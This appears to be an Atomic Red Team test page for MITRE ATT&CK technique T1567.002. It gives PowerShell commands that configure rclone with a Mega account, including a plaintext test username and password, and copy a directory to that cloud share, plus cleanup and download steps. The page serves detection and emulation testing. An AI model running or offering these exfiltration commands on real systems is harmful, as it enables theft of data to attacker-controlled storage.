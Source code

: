 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/002)

<blockquote>Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.

Examples of cloud storage services include Dropbox and Google Docs. Exfiltration to these cloud storage services can provide a significant amount of cover to the adversary if hosts within the network are already communicating with the service. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)](#atomic-test-1---exfiltrate-data-with-rclone-to-cloud-storage---mega-windows)

<br/>

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)

This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows

**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58

#### Inputs:

| Name               | Description                                           | Type   | Default Value                                                                     |
| ------------------ | ----------------------------------------------------- | ------ | --------------------------------------------------------------------------------- |
| rclone_path        | Directory of rclone.exe                               | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002&#92;rclone-v\*&#92; |
| rclone_config_path | Path to rclone's config file (default should be fine) | path   | $env:appdata                                                                      |
| dir_to_copy        | Directory to copy                                     | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002                     |
| mega_user_account  | Mega user account                                     | string | atomictesting@outlook.com                                                         |
| mega_user_password | Mega user password                                    | string | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA                                            |
| remote_share       | Remote Mega share                                     | string | T1567002                                                                          |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd "#{rclone_path}"
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k "#{dir_to_copy}" #{remote_share}:test -v
```

#### Cleanup Commands:

```powershell
cd "#{rclone_path}"
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\T1567.002" -recurse -force
```

#### Dependencies: Run with `powershell`!

##### Description: rclone must exist at (#{rclone_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{rclone_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\T1567.002\" -force
```

<br/>
